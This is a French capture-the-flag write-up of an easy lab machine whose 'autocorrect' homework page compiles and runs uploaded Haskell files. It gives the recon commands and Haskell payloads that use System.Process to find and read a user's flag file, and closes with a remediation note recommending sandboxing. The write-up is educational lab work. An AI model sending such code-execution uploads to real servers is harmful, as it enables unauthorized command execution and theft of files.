








# Fun With Functional

Difficulté : Easy

Catégorie : Injection

## 1. Reconnaissance

```bash
nmap 10.10.0.36
```



```bash
curl http://10.10.0.36:5001/
```



La page fait explicitement référence à Haskell, un langage de programmation. Et on voit un dossier ou fichier /homework.

## 2. Énumération web

```bash
ffuf -u http://10.10.0.36:5001/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

Le scan confirme l'existence de /homework. J'ai ensuite testé s'il y avait des sous-pages cachées derrière /homework/ :

```bash
ffuf -u http://10.10.0.36:5001/homework/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

Aucun résultat. Ce qui veut dire que /homework n'est donc pas un dossier avec plusieurs pages, mais une page unique.



## 3. Découverte du formulaire d'upload

```bash
curl http://10.10.0.36:5001/homework
```



La page demande d'envoyer un fichier .hs via un formulaire d'upload. Le texte précise qu'un "outil d'autocorrection" va traiter ce fichier. Cette phrase est un indique que si le serveur traite réellement le code envoyé, il y a de bonnes chances qu'il le compile et l'exécute, ce qui permettrait d'exécuter n'importe quelle commande à sa place.

## 4. Vérification du comportement du serveur

Avant de tenter une exploitation, j'ai testé un programme Haskell tout simple pour voir comment le serveur réagit :

```bash
touch test.hs
nano test.hs
```

```haskell
main :: IO ()
main = putStrLn "I love Haskell"
```

```bash
curl -F "file=@test.hs" http://10.10.0.36:5001/homework
```



-F sert à envoyer le fichier au format multipart/form-data, exactement le format attendu par le champ <input type=file name=file> du formulaire.

La réponse était une redirection HTTP (302) vers /uploads/test.hs. Par défaut curl n'affiche pas le contenu d'une page de redirection, il faut lui ajouter -L pour qu'il la suive automatiquement :

```bash
curl -L -F "file=@test.hs" http://10.10.0.36:5001/homework
```



Le serveur compile réellement mon fichier et exécute le programme obtenu, puis renvoie ce que le programme affiche, c'est une faille qu'on peut exploité.

## 5. Recherche du fichier flag

Le module Haskell System.Process permet de lancer une commande système depuis un programme Haskell, comme le ferait os.system() en Python. Ma première tentative a été de chercher le fichier user.txt sur tout le système :

```bash
touch find.hs
nano find.hs
```

```haskell
import System.Process

main :: IO ()
main = do
  out <- readProcess "find" ["/", "-name", "user.txt"] ""
  putStrLn out
```

```bash
curl -L -F "file=@find.hs" http://10.10.0.36:5001/homework
```

Résultat : erreur `readCreateProcess: find "/" "-name" "user.txt" (exit 1): failed`. La commande `find /` traverse des dossiers protégés (`/root`, `/proc`, etc.), ce qui la fait se terminer avec un code de sortie différent de 0. `readProcess` considère alors que la commande a échoué et lève une exception avant même d'afficher un éventuel résultat, même partiel.

Plutôt que de chercher à corriger le code de sortie (j'ai testé `sh -c "... 2>/dev/null"`, sans succès, car rediriger les erreurs ne change pas le code de sortie final de `find`), la solution la plus simple a été de réduire la zone de recherche à `/home`, dossier qui ne contient normalement rien de protégé. J'en ai aussi profité pour simplifier le code avec `callCommand`, qui lance une commande et affiche directement son résultat, sans avoir besoin de le stocker dans une variable avant :

```haskell
import System.Process

main :: IO ()
main = callCommand "find /home -name user.txt"
```

```bash
curl -L -F "file=@find.hs" http://10.10.0.36:5001/homework
```



Le fichier user.txt a été localisé.

## 6. Exploitation finale et récupération du flag

Pour lire le contenu du fichier :

```bash
touch flag.hs
nano flag.hs
```

```haskell
import System.Process

main :: IO ()
main = callCommand "cat /home/prof/user.txt"
```

```bash
curl -L -F "file=@flag.hs" http://10.10.0.41:5001/homework
```



**Flag : EPI{h4sK377_C4n_83_r3vsh3ll_4s_W3lL}**

## Failles trouvées

- **Upload de fichier exécuté sans vérification** : le site accepte n'importe quel programme Haskell envoyé par un visiteur et l'exécute directement sur le serveur, sans regarder ce qu'il fait vraiment. Ça permet de lancer n'importe quelle commande à la place du serveur, comme on l'a fait ici pour lire le fichier d'un autre utilisateur.
- **Un vrai langage de programmation traité comme un simple exercice** : Haskell est un langage complet, capable de lancer des commandes système.
## Comment corriger ça

Ne jamais exécuter directement sur le serveur principal, un programme envoyé par un visiteur. Il faudrais faire un espace complètement séparé du reste du système, qui n'a accès ni aux autres fichiers ni aux comptes utilisateurs.

## Ce que j'ai appris

Une fonctionnalité qui dit "autocorrect tool that will correct it" peut en réalité l'exécuter, pas juste le lire.

Avant de tester une commande compliquée, mieux vaut d'abord tester un truc simple (ici, juste afficher un message), pour être sûr que le service fait bien ce qu'on pense.

Une commande qui cherche partout (find /) tombe souvent sur des dossiers interdits et plante. Dans ce cas, plutôt que de réparer l'erreur, il est plus simple de chercher dans un dossier plus précis.

callCommand permet de faire en une seule ligne ce que readProcess + putStrLn faisaient en deux.
